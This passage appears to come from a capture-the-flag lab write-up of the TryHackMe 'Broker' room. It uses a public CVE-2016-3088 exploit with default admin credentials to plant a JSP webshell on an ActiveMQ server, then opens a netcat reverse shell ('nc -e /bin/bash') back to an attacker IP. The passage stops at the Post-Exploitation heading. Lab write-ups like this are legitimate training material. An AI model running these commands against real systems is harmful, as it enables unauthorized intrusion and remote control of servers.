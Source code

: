 **Output**:
```
Cloning into 'CVE-2016-3088'...
remote: Enumerating objects: 9, done.
remote: Counting objects: 100% (9/9), done.
remote: Compressing objects: 100% (8/8), done.
remote: Total 9 (delta 1), reused 2 (delta 0), pack-reused 0 (from 0)
Receiving objects: 100% (9/9), done.
Resolving deltas: 100% (1/1), done.
```

### Step 2: Run Exploit
Executed the Python exploit to gain a webshell.

**Command**:
```bash
python3 CVE-2016–3088.py
```

**Interaction**:
```
/home/santstyle/Desktop/THM/broker/CVE-2016-3088/CVE-2016–3088.py:17: SyntaxWarning: invalid escape sequence '\/'
  path = re.search('.*\/(?!.*\/)|', resp.reason)
Enter url (e.g http://127.0.0.1:8661/): http://10.201.90.162:8161/
Enter username: admin
Enter password: admin
Shell: http://10.201.90.162:8161/admin/shell.jsp?cmd=whoami
```

**Verification**:
- Accessed `http://10.201.90.162:8161/admin/shell.jsp?cmd=whoami` in browser.
- Confirmed execution as `activemq` user.

### Step 3: Establish Reverse Shell
Used the webshell to execute a reverse shell command.

**Command via Webshell**:
```
http://10.201.90.162:8161/admin/shell.jsp?cmd=nc -e /bin/bash 10.9.1.172 4444
```

**Listener on Attacker**:
```bash
nc -lvnp 4444
```

**Output**:
```
listening on [any] 4444 ...
connect to [10.9.1.172] from (UNKNOWN) [10.201.90.162] 52776
```

## Post-Exploitation
